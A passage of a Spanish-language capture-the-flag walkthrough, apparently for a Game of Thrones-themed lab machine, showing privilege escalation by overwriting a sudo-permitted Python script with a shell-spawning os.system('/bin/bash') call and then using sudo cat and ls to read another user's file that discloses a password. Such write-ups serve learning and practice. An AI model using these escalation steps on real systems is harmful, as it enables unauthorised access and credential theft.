 Comprobamos que podemos ejecutar el script `.mensaje.py` con privilegios del usuario `aria`.

Para aprovechar este permiso, eliminamos el `script` original y creamos otro con el mismo nombre pero con nuestro propio código.

```
import os    
os.system("/bin/bash")
```

Lo guardamos y lo ejecutamos de la siguiente manera. 

```bash
sudo -u aria python3 /home/jon/.mensaje.py
```

Con esto pivotamos con éxito al usuario `aria`.

Una vez como `aria`, comprobamos permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for aria on 77d3c9827bf1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aria may run the following commands on 77d3c9827bf1:
    (daenerys) NOPASSWD: /usr/bin/cat, /usr/bin/ls
```

Vemos que podemos ejecutar los binarios `cat` y `ls` con privilegios de daenerys.

Aprovechamos esta posibilidad para listar y leer los archivos del directorio `/home/daenerys`.

```bash
sudo -u daenerys ls /home/daenerys
```

Info:
```
mensajeParaJon
```

Encontramos un archivo.

```bash
sudo -u daenerys cat /home/daenerys/mensajeParaJon
```

Info:
```
Aria estare encantada de ayudar a Jon con la guerra en el norte, siempre y cuando despues Jon cumpla y me ayude a  recuperar el trono de hierro. 
Te dejo en este mensaje la contraseña de mi usuario por si necesitas llamar a uno de mis dragones desde tu ordenador.

!drakaris!
``` 
